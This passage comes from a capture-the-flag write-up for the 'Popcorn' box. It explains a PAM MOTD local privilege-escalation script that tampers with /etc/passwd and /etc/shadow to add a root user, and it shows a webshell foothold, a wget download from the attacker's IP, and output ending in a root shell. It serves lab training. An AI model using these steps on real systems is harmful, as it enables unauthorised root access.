 

If `~/.cache` exists, it removes it. Then it creates the link to the
file to target, which from the main body is first `/etc/passwd`, and
then `/etc/shadow`. Then it runs SSH to connect to the box to run the
`true` command and then disconnect. It verifies that it now has write
permissions on the file.

So in each of the calls to `own`, it gets write access, and then adds a
line, thus adding the user toor as a root user, just like I did
manually.

Then it restores `.cache`, and cleans up the SSH key that was added.

Finally, it calls `su -c` with a long command to run as root for the
user toor. When I enter that password, toor, it runs the command:

-   remove the line for the toor user from both `/etc/passwd` and
    `/etc/shadow`;
-   change the owner for both of those files to root;
-   change the group of `/etc/shadow` to shadow;
-   `nscd` is the caching daemon for name services, including `passwd`,
    and this [invalidates the cache](https://linux.die.net/man/8/nscd);
-   runs `bash` to give a shell.

Basically it cleans up after itself, and then launches a shell.

#### Run

I gave the box a reset, re-uploaded a webshell, got a shell, with pty.
Then I uploaded the script using a Python webserver
(`python3 -m http.server 80`) and `wget`:



    www-data@popcorn:/dev/shm$ wget 10.10.14.14/pam_motd.sh
    --2020-06-21 22:28:38--  http://10.10.14.14/pam_motd.sh
    Connecting to 10.10.14.14:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3043 (3.0K) [text/x-sh]
    Saving to: `pam_motd.sh'

    100%[======================================>] 3,043       --.-K/s   in 0.004s  

    2020-06-21 22:28:38 (761 KB/s) - `pam_motd.sh' saved [3043/3043]



The script runs and returns a root shell:



    www-data@popcorn:/dev/shm$ bash pam_motd.sh 
    [*] Ubuntu PAM MOTD local root
    [*] SSH key set up
    [*] spawn ssh
    [+] owned: /etc/passwd
    [*] spawn ssh
    [+] owned: /etc/shadow
    [*] SSH key removed
    [+] Success! Use password toor to get root
    Password: 
    root@popcorn:/dev/shm#

